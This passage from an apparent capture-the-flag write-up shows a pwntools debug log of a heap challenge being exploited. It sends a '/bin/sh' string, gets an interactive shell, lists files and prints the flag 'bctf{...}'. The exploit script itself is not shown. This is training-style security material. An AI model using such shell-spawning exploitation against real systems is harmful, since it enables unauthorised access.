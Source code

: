 ```bash
[DEBUG] Received 0x6 bytes:
    b'size? '
[DEBUG] Sent 0x3 bytes:
    b'32\n'
[DEBUG] Sent 0x9 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  0a                        │/bin│/sh·│·│
    00000009
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Received 0x77 bytes:
    b'-----Options---\n'
    b'-----Alloc-----\n'
    b'-----Free------\n'
    b'-----View------\n'
    b'-----Edit------\n'
    b'-----Exit------\n'
    b'-----Resize----\n'
    b'Where? '
[DEBUG] Sent 0x2 bytes:
    b'6\n'
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0xdc bytes:
    b'Dockerfile\t  chal_patched\t  ld-2.27.so\n'
    b'chal\t\t   libc.so.6\n'
    b'exploit.py\t\t  solve.py\n'
    b'flag.txt\n'
Dockerfile      chal_patched  ld-2.27.so
chal        libc.so.6
exploit.py          solve.py
flag.txt
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x28 bytes:
    b'bctf{j33z_1_d1dn7_kn0w_h34p_1z_s0_easy}\n'
bctf{j33z_1_d1dn7_kn0w_h34p_1z_s0_easy}
$ 
```

## Flag
```
bctf{j33z_1_d1dn7_kn0w_h34p_1z_s0_easy}
```